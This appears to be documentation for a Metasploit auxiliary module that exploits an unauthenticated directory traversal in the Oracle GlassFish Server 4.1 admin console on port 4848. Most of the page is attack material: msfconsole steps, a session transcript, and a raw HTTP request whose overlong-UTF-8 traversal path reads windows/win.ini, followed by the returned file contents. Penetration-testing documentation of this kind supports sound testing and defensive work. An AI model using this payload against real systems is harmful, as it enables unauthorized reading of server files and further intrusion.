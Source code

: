 ## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability which exits in administration console of,
Oracle GlassFish Server 4.1, which is listening by default on port 4848/TCP.

Related links :

* https://www.exploit-db.com/exploits/39441/
* https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904

## Verification

```
Start msfconsole
use auxiliary/scanner/http/glassfish_traversal
set RHOSTS [IP]
run
```

## Scenarios

```
msf > use auxiliary/scanner/http/glassfish_traversal 
msf auxiliary(scanner/http/glassfish_traversal) > set RHOSTS 192.168.1.105
RHOSTS => 192.168.1.105
msf auxiliary(scanner/http/glassfish_traversal) > set verbose true
verbose => true
msf auxiliary(scanner/http/glassfish_traversal) > run

[+] 192.168.1.105:4848 - ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[MCI Extensions.BAK]
3g2=MPEGVideo
3gp=MPEGVideo
3gp2=MPEGVideo
3gpp=MPEGVideo
aac=MPEGVideo
adt=MPEGVideo
adts=MPEGVideo
m2t=MPEGVideo
m2ts=MPEGVideo
m2v=MPEGVideo
m4a=MPEGVideo
m4v=MPEGVideo
mod=MPEGVideo
mov=MPEGVideo
mp4=MPEGVideo
mp4v=MPEGVideo
mts=MPEGVideo
ts=MPEGVideo
tts=MPEGVideo

[+] File saved in: /home/input0/.msf4/loot/20180804132151_default_192.168.1.105_oracle.traversal_244542.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/glassfish_traversal) >
```

## HTTP Request

```
GET /theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini HTTP/1.1
Host: 192.168.1.105:4848
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=3c54ae091ab200dc3ce8ecfff7c1
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 04 Aug 2018 05:53:42 GMT
```

## HTTP Response

```
HTTP/1.1 200 OK
Content-Length: 403
Content-Type: text/plain
Expires: Mon, 30 Jul 2018 11:16:55 GMT
Last-Modified: Tue, 14 Jul 2009 05:09:22 GMT
Server: Microsoft-HTTPAPI/2.0
Date: Sun, 29 Jul 2018 06:46:55 GMT
Connection: close

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[MCI Extensions.BAK]
3g2=MPEGVideo
3gp=MPEGVideo
3gp2=MPEGVideo
3gpp=MPEGVideo
aac=MPEGVideo
adt=MPEGVideo
adts=MPEGVideo
m2t=MPEGVideo
m2ts=MPEGVideo
m2v=MPEGVideo
m4a=MPEGVideo
m4v=MPEGVideo
mod=MPEGVideo
mov=MPEGVideo
mp4=MPEGVideo
mp4v=MPEGVideo
mts=MPEGVideo
ts=MPEGVideo
tts=MPEGVideo
```
